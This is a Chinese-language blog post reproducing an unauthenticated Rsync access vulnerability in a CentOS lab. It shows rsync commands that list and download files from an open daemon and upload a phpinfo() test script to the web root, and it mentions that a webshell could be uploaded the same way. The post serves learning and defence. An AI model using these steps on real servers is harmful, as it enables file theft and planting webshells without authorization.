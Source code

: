```yaml
---
layout: post_layout
title: Rsync未授权访问漏洞复现
time: 2019年05月28日 星期二
location: 杭州
pulished: true
excerpt_separator: "### 1 漏洞原理"
---
```

### 0 背景

未授权访问漏洞，指需要授权的地址、页面缺乏认证，导致任意用户可以直接访问，引发的问题轻则敏感信息泄露，重则命令执行。

Rsync，linux 下一款远程同步软件，能同时同步多台计算机的文件及目录，并能保持源文件的**权限**、时间、软硬连接等附加信息。

### 1 漏洞原理

#### 可读

Rsync 未配置认证用户名密码，导致任意用户可以查看目录、下载文件。

客户端命令：

>rsync [-avz] [--port=xxx] IP::[目录/文件] [目录]

-a --archive 归档模式，表示递归传输并保持文件属性。

-v 显示 rsync 过程中详细信息。

-z 传输时进行压缩提高效率。

最常用的选项组合是 "-avz"，即压缩和显示部分信息，并以归档模式传输。

--port 连接 daemon 时使用的端口号，**默认为873端口**。

IP 为服务器 ip，:: 后跟目录则显示目录列表，跟目录+文件则下载该文件。

最后的目录为下载到的本地目录。

示例：

>rsync -avz --port=12345 192.168.1.111::test/index.php /home/user

该命令通过12345端口将 192.168.1.111 中 test/index.php 文件下载到了本地的 /home/user 中。

#### 可写

若 rsync 配置文件中关闭了只读选项，即 "read only = no",则可以对服务器进行文件上传。可以上传带有777权限的 webshell 或者可以命令执行的 php 脚本。

客户端命令：

>rsync [-avz] [--port=xxx] [目录+文件] IP::[目录]

参数同上，第一处目录+文件为本地待上传的文件，第二处目录为上传目录。

### 2 漏洞复现

#### 环境准备

* 一台 CentOS 7 64位的虚拟机。

* Xmapp 安装包。

#### 复现步骤

```
将 CentOS 克隆两份，一份为 server，一份为 client。
在 CentOS server 上安装 rsync，安装 xampp，将rsync的默认目录设置为 xampp 的网站根目录。
在 CentOS client 上安装 rsync，下载网站的 index.php；写一个测试用的 test.php，上传至网站根目录并访问。
```

具体如下：

1. CentOS 连接网络

刚安装的 CentOS 不能连接网络，需要更改网卡配置。（CentOS 可以连网则跳过该步骤）

>su
>vi /etc/sysconfig/network-scripts/ifcfg-ens33

按i → 将 ONBOOT=no 改为 ONBOOT=yes → 按Esc → :wq

在物理机中打开 cmd，运行

>net start "Vmware DHCP Service"
>net start "Vmware NAT Service"

再进入 CentOS，输入

>service network restart
>ping www.baidu.com

正常访问网络。

2. 安装 rsync

>yum install rsync -y

3. 配置 rsync

>vi /etc/rsyncd.conf

配置基本的信息：

```
uid = root
gid = root
use chroot = yes
max connections = 4
exclude = lost+found/
transfer logging = yes
timeout = 900
ignore nonreadable = yes
dont compress = .gz .tgz .zip .z .Z .rpm .deb .bz2
[test] # 可自定义的标签名
	path = /home/ # 客户端同步的服务器默认目录
	comment = this is a test
ignore errors
read only = no # 设置是否只读
```

此处为了测试，不再配置认证用户名及密码。正确的操作是在这时添加用户名及密码。

4. 安装 xmapp

访问 xampp [官网](https://www.apachefriends.org/zh_cn/index.html) ,下载 for Linux 的最新版本 xampp 的 .run 文件。下载完成后上传至服务器的 /opt/ 目录下。

或者在服务的 /opt/ 目录下直接输入命令

>wget https://www.apachefriends.org/xampp-files/7.3.5/xampp-linux-x64-7.3.5-1-installer.run

给该文件提权

>chmod -R 755 xampp-linux-x64-7.3.5-1-installer.run

运行安装 xmapp

>./xampp-linux-x64-7.3.5-1-installer.run

安装完成后启动 xampp

>/opt/lampp/lampp start

此时，网站的根目录为 /opt/lampp/htdocs/

5. 更改 rsync 默认目录

>vi /etc/rsyncd.conf

将 path = /home/ 改为 path = /opt/lampp/htdocs/

6. 启动 rsync

>systemctl start rsyncd

7. 在 CentOS client 上，连接服务器的 rsync

>rsync 192.168.xxx.xxx::

发现不能访问，需要关闭服务器的防火墙

CentOS 默认的防火墙为 firewall

>systemctl stop firewalld.service

客户端即可访问

![访问成功](imgs/2019-05-28-Rsync_Unauthorized_Access/1.png)

客户端访问 test 目录

>rsync 192.168.xxx.xxx::test

![访问目录](imgs/2019-05-28-Rsync_Unauthorized_Access/2.png)

客户端下载 index.php 文件到本地的 /home/ 目录中

>rsync 192.168.xxx.xxx::test/index.php /home/

![下载文件](imgs/2019-05-28-Rsync_Unauthorized_Access/3.png)

在客户端中写一个包含了 phpinfo() 的脚本

```
<?php
	phpinfo();
?>
```

![php 脚本](imgs/2019-05-28-Rsync_Unauthorized_Access/4.png)

将脚本上传至服务器

>rsync a.php 192.168.xxx.xxx::test

发现上传权限不足，检查 /opt 目录的权限也没有问题，最后发现需要在服务器中关闭 enforce 模式

```
[root@localhost]# getenforce
Enforcing

[root@localhost]# setenforce 0
关闭 enforce 模式

[root@localhost]# getenforce
Permissive
```

重新上传，上传文件成功，浏览器访问 192.168.xxx.xxx/a.php

![脚本上传成功](imgs/2019-05-28-Rsync_Unauthorized_Access/5.png)

